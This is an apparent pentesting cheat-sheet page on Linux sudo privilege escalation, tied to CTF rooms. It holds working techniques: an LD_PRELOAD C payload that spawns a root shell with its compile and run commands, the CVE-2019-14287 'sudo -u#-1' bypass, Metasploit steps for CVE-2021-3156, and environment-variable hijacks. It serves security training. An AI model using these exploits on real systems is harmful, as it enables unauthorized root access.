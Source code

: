 # sudo privilege escalation

*An excellent reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) <small>(2.3k ⭐)</small>. List sudoers with `getent group sudo`.*

[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![picklerick](../../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)
[![wgelctf](../../../../_badges/thm-p/wgelctf.svg)](https://tryhackme.com/room/wgelctf)
[![easyctf](../../../../_badges/thm-p/easyctf.svg)](https://tryhackme.com/room/easyctf)
[![colddboxeasy](../../../../_badges/thm-p/colddboxeasy.svg)](https://tryhackme.com/room/colddboxeasy)
[![allinonemj](../../../../_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)
[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)
[![tomghost](../../../../_badges/thm-p/tomghost.svg)](https://tryhackme.com/room/tomghost)
[![ccpentesting](../../../../_badges/thm-p/ccpentesting.svg)](https://tryhackme.com/room/ccpentesting)
[![bruteit](../../../../_badges/thm-p/bruteit.svg)](https://tryhackme.com/r/room/bruteit)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)
[![teamcw](../../../../_badges/thm-p/teamcw.svg)](https://tryhackme.com/r/room/teamcw)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
[![jason](../../../../_badges/thm-p/jason.svg)](https://tryhackme.com/r/room/jason)
[![brooklynninenine](../../../../_badges/thm-p/brooklynninenine.svg)](https://tryhackme.com/r/room/brooklynninenine)
[![h4cked](../../../../_badges/thm-p/h4cked.svg)](https://tryhackme.com/r/room/h4cked)
[![vulnnet_node](../../../../_badges/thm-p/vulnnet_node.svg)](https://tryhackme.com/r/room/vulnnetnode)
[![sudo_weak_configuration](../../../../_badges/rootme/app_script/sudo_weak_configuration.svg)](https://www.root-me.org/en/Challenges/App-Script/sudo-weak-configuration)
[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)
[![shared_objects_hijacking](../../../../_badges/rootme/app_script/shared_objects_hijacking.svg)](https://www.root-me.org/en/Challenges/App-Script/Shared-Objects-hijacking)
![nibbles](../../../../_badges/htb-p/nibbles.svg)
![getsimplecms](../../../../_badges/htb-p/getsimplecms.svg)
[![devvortex](../../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)
[![cozyhosting](../../../../_badges/htb-p/cozyhosting.svg)](https://app.hackthebox.com/machines/CozyHosting)
[![knife](../../../../_badges/htb-p/knife.svg)](https://app.hackthebox.com/machines/Knife)
[![broker](../../../../_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)
[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)
[![shocker](../../../../_badges/htb-p/shocker.svg)](https://app.hackthebox.com/machines/Shocker)
[![blocky](../../../../_badges/htb-p/blocky.svg)](https://app.hackthebox.com/machines/Blocky)
[![mirai](../../../../_badges/htb-p/mirai.svg)](https://app.hackthebox.com/machines/Mirai)

<div class="row row-cols-lg-2"><div>

If you have [administrative privileges](/operating-systems/linux/_knowledge/index.md#sudo), you can list them with:

```ps
$ sudo -nl # without a password
$ sudo -l # with a password
```

The first section is about settings and environment variables that may be exploited such as [LD_PRELOAD](#ld_preload).

```text!
Matching Defaults entries for [...]:
    [...] # something here
```

The second section is about your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) rights. Such commands may be exploited to get root, search the command on [GTOBins #sudo](../tools/gtfobins.md).

```text!
User [...] may run the following commands on [...]:
    (root) /bin/tar
```

➡️ For instance, the user below can run `/bin/tar` as `root`.
</div><div>

📚 Sometimes, instead of root, we may be able to run commands as another user, such as `/opt/script.sh` as user `xxx`. Use `sudo -u xxx`.

🍀 Sometimes, patterns are used in commands/paths. In a path, it means we can use `../`. In a command, we can use any option.

```text!
User [...] may run the following commands on [...]:
    (root) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /usr/bin/vim
    (xxx) NOPASSWD: /opt/*.sh
    (root) /usr/bin/ssh *
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

☠️ If you can only execute the script and not read it, either try to see if the script use an [injectable](../utils/injection.md) parameter or try to find if the source code is available somewhere else <small>(ex: on Git)</small>.

⚠️ A configuration may contains both `env_keep` and `env_reset`. The option `sudo -E` is the same as `env_keep`.
</div></div>

<hr class="sep-both">

## LD_PRELOAD

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

<div class="row row-cols-lg-2"><div>

If there is `env_keep += LD_PRELOAD` in the permissions displayed by `sudo -l` OR if there is no `env_reset`, then it means that we can set `LD_PRELOAD` and run code before executing the command.

The code below replace the gid/uid of the user running the command with `0` <small>(root)</small>. Then, it pops a bash shell <small>(as root!)</small>.

```c
//#include <stdio.h>
//#include <sys/types.h>
//#include <stdlib.h>
void _init() {
    //unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

Compile it with

```shell!
$ cd /tmp
$ gcc -shared -fPIC init.c -o init.so
$ gcc -shared -fPIC init.c -o init.so -nostartfiles
```

Then, call the command that you could run as administrator <small>(`tar` here)</small>, while setting the variable path to your script:

```shell!
$ sudo LD_PRELOAD=/tmp/init.so tar
```

💎 Congratulations, you are `root` now!

📚 You can set `LD_LIBRARY_PATH` to use a relative path.
</div></div>

<hr class="sep-both">

## Well-known Vulnerabilities

<div class="row row-cols-lg-2"><div>

#### sudo before 1.8.28 (CVE-2019-14287)

[![agentsudoctf](../../../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

If a user was allowed to run one specific command using sudo, such as `tar`, then it was possible for any other user to impersonate the authorized user, and run the command as root too.

```ps
$ sudo -u#-1 tar [...]
$ sudo -u#4294967295 tar [...]
```

💎 Congratulations, you are `root` now!
</div><div>

#### sudo before 1.9.5p2 (CVE-2021-3156)

[![metasploitframework](../../../../_badges/htb/metasploitframework.svg)](https://academy.hackthebox.com/course/preview/using-the-metasploit-framework)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)

See metasploit module: `exploit/linux/local/sudo_baron_samedit`.

```shell!
msf6> use exploit/linux/local/sudo_baron_samedit
msf6> set SESSION 1
msf6> set LHOST tun0
msf6> run
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### doas

[![glitch](../../../../_badges/thm-p/glitch.svg)](https://tryhackme.com/r/room/glitch)

[Doas](https://wiki.debian.org/Doas) is a minimal alternative to sudo. The command is so minimal that I was not able to know why I could exploit it while there were no configuration files and I could not use my own <small>(did nothing)</small>.

```shell!
$ doas -u root bash
```

#### LD_LIBRARY_PATH

[![shared_objects_hijacking](../../../../_badges/rootme/app_script/shared_objects_hijacking.svg)](https://www.root-me.org/en/Challenges/App-Script/Shared-Objects-hijacking)

While uncommon, if the sudo configuration include `env_keep+=LD_LIBRARY_PATH`, we are able to set a custom folder for `.so`. Refer to [Shared Object Hijacking](../utils/injection.md#library-hijacking).

```shell!
$ sudo LD_LIBRARY_PATH=/path/to/xx/ [...]
```
</div><div>

#### PYTHONPATH

[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

While uncommon, if the sudo configuration include `env_keep+=PYTHONPATH`, we are able to set a custom folder for python modules. Refer to [Shared Object Hijacking](../utils/injection.md#library-hijacking).

```shell!
$ sudo PYTHONPATH=/path/to/xx/ [...]
```
</div></div>